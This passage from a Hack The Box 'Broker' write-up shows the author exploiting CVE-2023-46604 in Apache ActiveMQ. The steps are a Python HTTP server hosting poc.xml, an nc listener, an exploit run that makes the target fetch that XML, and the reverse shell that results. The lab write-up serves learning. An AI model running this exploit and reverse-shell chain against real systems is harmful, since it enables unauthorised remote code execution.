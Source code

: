 Then I need to set up a listener for my shell and a server for the `poc.xml` and finally run the code.

### Server:

```bash
m0j0@r1s1n: ~/HTB/writeups/broker/CVE-2023-46604 main
$ python3 -m http.server                                        [6:52:55]
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.243 - - [18/Dec/2023 06:58:53] "GET /poc.xml HTTP/1.1" 200 -
```

You can see it is serving in the directory that the `poc.xml` file is. It serves the file when I run the exploit.

### Listener:

```bash
m0j0@r1s1n: ~/HTB/writeups/broker/ActiveMQ-RCE
$ rlwrap nc -nvlp 1234                                                                                                                      [6:04:00]
Listening on 0.0.0.0 1234
```

I use [rlwrap](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiPu8uYuZiDAxUDVEEAHYg-DTYQFnoECBkQAQ&url=https%3A%2F%2Fgithub.com%2Fhanslub42%2Frlwrap&usg=AOvVaw33k-F4z9B_Wt8qyEJ7sats&opi=89978449) as it helps with the shell and my input.

### Exploit for Shell:

```bash
m0j0@r1s1n: ~/HTB/writeups/broker/CVE-2023-46604 main ⚡
$ ./exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.14.19:8000/poc.xml 
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.19:8000/poc.xml

[*] Sending packet: 000000721f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001f687474703a2f2f31302e31302e31342e31393a383030302f706f632e786d6c
```

It looks like the exploit has went with no errors, time to check for my shell:

```bash
$ rlwrap nc -nvlp 1234                                                                                                                      [6:04:00]
Listening on 0.0.0.0 1234
Connection received on 10.10.11.243 41792
bash: cannot set terminal process group (882): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
script /dev/null -c bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
[1]  + 3457868 suspended  rlwrap nc -nvlp 1234
FAIL: 148                                        # type ctrl+z 

m0j0@r1s1n: ~/HTB/writeups/broker/ActiveMQ-RCE
```